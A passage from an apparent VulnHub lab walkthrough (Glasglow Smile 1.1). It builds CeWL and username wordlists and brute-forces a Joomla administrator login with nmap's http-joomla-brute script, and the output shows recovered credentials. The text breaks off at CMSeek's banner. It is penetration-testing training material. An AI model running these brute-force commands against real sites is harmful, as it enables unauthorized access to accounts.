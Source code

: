 	┌──(root💀kali)-[~/vulnHub/Glasglow-Smile-1.1/192.168.1.1/exploit/joomla]
	└─# cewl http://192.168.1.1/joomla/index.php -w passwords.txt
	CeWL 5.5.2 (Grouping) Robin Wood (robin@digi.ninja) (https://digi.ninja/)

	┌──(root💀kali)-[~/vulnHub/Glasglow-Smile-1.1/192.168.1.1/exploit/joomla]
	└─# cat >> usernames.txt << EOF
	> Joker
	> joker
	> Arthur
	> arthur
	> Rob
	> rob
	> admin
	> joomla
	> EOF

	```
6. Bruteforce Joomla CMS 
	- Hydra/Burp did not work due to a unqiue token being generated 
		- https://www.securityartwork.es/2013/02/14/nmap-script-http-joomla-brute-where-thc-hydra-doesnt-fit/
	-  NMAP Script: `http-joomla-brute`, 
		- https://nmap.org/nsedoc/scripts/http-joomla-brute.html
		- `http-joomla-brute.uri`: 
			- specify path to `/administrator/index.php`
	- CMSeek
		- https://github.com/Tuhinshubhra/CMSeeK
7. Bruteforce w/ nmap script
	```
	┌──(root💀kali)-[~/vulnHub/Glasglow-Smile-1.1/192.168.1.1/exploit/joomla]
	└─# nmap -p80 --script http-joomla-brute 192.168.1.1 --script-args 'userdb=/root/vulnHub/Glasglow-Smile-1.1/192.168.1.1/exploit/joomla/usernames.txt,passdb=/root/vulnHub/Glasglow-Smile-1.1/192.168.1.1/exploit/joomla/passwords.txt,brute.firstonly=true,http-joomla-brute.uri=/joomla/administrator/index.php,http-joomla-brute.threads=5'
	Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-26 02:10 +08
	Nmap scan report for 192.168.1.1
	Host is up (0.00027s latency).

	PORT   STATE SERVICE
	80/tcp open  http
	| http-joomla-brute: 
	|   Accounts: 
	|     joomla:Gotham - Valid credentials
	|_  Statistics: Performed 1342 guesses in 91 seconds, average tps: 14.4
	MAC Address: 00:0C:29:4F:F2:DE (VMware)

	Nmap done: 1 IP address (1 host up) scanned in 91.21 seconds
	```
8. Bruteforce w/ CMSeek
	```
	 ___ _  _ ____ ____ ____ _  _
	|    |\/| [__  |___ |___ |_/  by @r3dhax0r
	|___ |  | ___| |___ |___ | \_ Version 1.1.3 K-RONA
